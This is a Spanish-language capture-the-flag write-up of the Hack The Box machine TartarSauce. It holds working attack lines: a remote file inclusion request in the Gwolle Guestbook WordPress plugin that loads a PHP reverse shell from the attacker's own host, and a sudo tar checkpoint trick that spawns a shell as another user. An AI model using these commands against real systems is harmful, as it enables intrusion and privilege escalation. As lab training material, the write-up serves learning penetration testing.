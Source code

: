 ```bash
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug  3 19:38:15 2021
[+] Requests Done: 94492
[+] Cached Requests: 7
[+] Data Sent: 27.511 MB
[+] Data Received: 12.735 MB
[+] Memory used: 435.852 MB
[+] Elapsed time: 00:31:47


```

Buscamos por el `plugin Gwolle` en `Searchsploit`
```bash
# searchsploit Gwolle                                                                                                                                  
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
--------------------------------------------------------------------- ---------------------------------
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion           | php/webapps/38861.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
# Acceso Inicial - Plugin Gwolle Wordpress
Procedemos a seguir los pasos para ejecutar el `RFI` y ganar acceso a la maquina Victima
Atraves de la vulnerabilidad de Gwolle de wordpress 
Posteamos nuestro tipica `php-reverse-shell` en un archivito malicioso con nombre de `wp-load.php`
Procedemos a preparar la peticion para el acceso a nivel web que nos va a cargar nuestro archivo `wp-load.php`
```bash
http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.241/
```
Tenemos que postear nuestro archivo con un servidor con python3 para que se encuentre visible para la peticion de la maquina victima
```bash
Accedemos

hacemos sudo -l 
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
Podemos usar como onuma el comando /tar
hacemos lo siguiente
```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh  
```
Y ya nos spawneamos una shell como el usuario Onuma Yeahhh
